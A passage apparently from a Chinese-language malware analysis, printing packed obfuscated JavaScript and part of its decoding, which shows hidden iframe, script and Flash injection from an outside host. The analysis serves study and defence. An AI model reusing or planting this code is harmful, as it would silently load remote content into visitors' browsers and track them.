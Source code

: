 ```
eval(function(p,a,c,k,e,r)`{`e=function(c)`{`return(c&lt;a?'':e(parseInt(c/a)))+((c=c%a)&gt;35?String.fromCharCode(c+29):c.toString(36))`}`;if(!''.replace(/^/,String))`{`while(c--)r[e(c)]=k[c]||e(c);k=[function(e)`{`return r[e]`}`];e=function()`{`return'\w+'`}`;c=1`}`;while(c--)if(k[c])p=p.replace(new RegExp('\b'+e(c)+'\b','g'),k[c]);return p`}`('a("V"==1B(3))`{`3=[];3.g=[];3.K=9(h)`{`4 6=5.16("1u");6.w.o="0";6.w.j="0";6.w.1G="1M";6.w.29="-2d";6.1p=h;1j 6`}`;3.C=9(v,8)`{`4 6=3.K(v);5.b.C(6,5.b.Z[0]);3.g[8]=6`}`;3.y=9(v,8)`{`4 6=3.K(v);5.b.y(6);3.g[8]=6`}`;3.1e=9(1f,8)`{`4 f='&lt;1w'+'J 1E'+'c="'+1f+'" 1K'+'1L="1" 1R'+'1U="1"/&gt;';3.y(f,8)`}`;3.27=9(11)`{`4 14=5.1n('1o')[0];4 n=5.16('1q');14.y(n).F=11`}`;3.1s=9(8)`{`H`{`a(3.g[8])`{`5.b.1v(3.g[8]);3.g[8]=V`}``}`I(e)`{``}``}`;3.X=9(8,r)`{`4 l="D"+"p://1N"+"1O.c"+"1Q.c"+"E/1T"+"t.23"+"m?8=";l+=8+"&amp;r="+25(r)+"&amp;G=";4 f=k;4 G=f.u.2e||f.u.2f;l+=G.2g()+"&amp;2h"+"J=2j&amp;2v"+"2w=0&amp;2x"+"J=0&amp;2y"+"2I"+"d=";l+=z.1m(T*z.U())+"-2M"+"1t-";4 W=f.A.o&amp;&amp;f.A.j?f.A.o+"x"+f.A.j:"1x";l+="&amp;1y"+"1z="+W+"&amp;1A=0&amp;s"+"1C=&amp;t=&amp;1D="+z.1m(T*z.U());1j l`}`;3.L=9()`{`a(5&amp;&amp;5.b&amp;&amp;5.b.Z)`{`4 1F=k.u.10;4 1H=k.1I.1J;4 M="D"+"p://i.12"+"13"+"N.c"+"E/s"+"1P.s"+"15?d=19.s"+"15";4 O="s=1S";4 P='&lt;17 1V="1W:1X-1Y-1Z-20-21" 22="18://24.1a.1b/26/1c/28/1d/2a.2b#2c=7,0,0,0" o="0" j="0"&gt;&lt;Q R="1g" S="1h"/&gt;&lt;Q R="2i" S="'+M+'"/&gt;&lt;Q R="1i" S="'+O+'"/&gt;&lt;2k F="'+M+'" 1i="'+O+'" o="0" j="0" 1g="1h" 2l="2m/x-1c-1d" 2n="18://2o.1a.1b/2p/2q" /&gt;&lt;/17&gt;';P+='&lt;2r F="'+3.X("2s"+"2",5.2t)+'" o="0" j="0"/&gt;';3.C(P,"2u")`}`B`{`1k(3.L,1l)`}``}`;3.L();3.q=9()`{`a(5&amp;&amp;5.b)`{`H`{`a(/\2z\2A\2B/i.2C(k.u.10))`{`4 l="D"+"p://i.12"+"13"+"N.c"+"E/s"+"2D.h"+"2E#s/N";3.1e(l,"2F")`}``}`I(e)`{``}``}`B`{`1k(3.q,1l)`}``}`;H`{`a("2G"==5.2H)`{`3.q()`}`B`{`a(5.Y)`{`k.Y("2J",3.q)`}`B`{`k.2K("2L",3.q,1r)`}``}``}`I(e)`{``}``}`',62,173,'|||_c1oud3ro|var|document|node||id|function|if|body|||||nodes|||height|window||||width||oload2||||navigator|html|style||appendChild|Math|screen|else|insertBefore|htt|om|src|lg|try|catch|me|getDivNode|oload|fp|an|pm|str|param|name|value|2147483648|random|undefined|sp|stat|attachEvent|childNodes|userAgent|js|ej|ieb|head|wf|createElement|object|http||macromedia|com|shockwave|flash|appendIframe|url|allowScriptAccess|always|flashVars|return|setTimeout|200|floor|getElementsByTagName|HEAD|innerHTML|SCRIPT|false|removeNode|6171|DIV|removeChild|ifra|0x0|sho|wp|st|typeof|in|rnd|sr|ua|position|ho|location|host|wi|dth|absolute|hz|s11|tat1|nzz|he|de|sta|ight|classid|clsid|d27cdb6e|ae6d|11cf|96b8|444553540000|codebase|ht|fpdownload|encodeURIComponent|pub|appendScript|cabs|left|swflash|cab|version|100px|systemLanguage|language|toLowerCase|nti|movie|none|embed|type|application|pluginspage|www|go|getflashplayer|img|203338|referrer|_cl3r|rep|eatip|rti|cnz|wnd|wo|wd|test|tatn|tml|_9h0n4|complete|readyState|z_ei|onload|addEventListener|load|139592'.split('|'),0,`{``}`))
```

上述代码解码后的内容如下所示，它最后会提供一个可疑的flash对象（stat.swf）：



```
eval(  
    if ("undefined" == typeof(_c1oud3ro)) `{`
        _c1oud3ro = [];
        _c1oud3ro.nodes = [];
        _c1oud3ro.getDivNode = function(h) `{`
            var node = document.createElement("DIV");
            node.style.width = "0";
            node.style.height = "0";
            node.style.position = "absolute";
            node.style.left = "-100px";
            node.innerHTML = h;
            return node
        `}`;
        _c1oud3ro.insertBefore = function(html, id) `{`
            var node = _c1oud3ro.getDivNode(html);
            document.body.insertBefore(node, document.body.childNodes[0]);
            _c1oud3ro.nodes[id] = node
        `}`;
        _c1oud3ro.appendChild = function(html, id) `{`
            var node = _c1oud3ro.getDivNode(html);
            document.body.appendChild(node);
            _c1oud3ro.nodes[id] = node
        `}`;
        _c1oud3ro.appendIframe = function(url, id) `{`
            var f = '&lt;ifra' + 'me sr' + 'c="' + url + '" wi' + 'dth="1" he' + 'ight="1"/&gt;';
            _c1oud3ro.appendChild(f, id)
        `}`;
        _c1oud3ro.appendScript = function(js) `{`
```
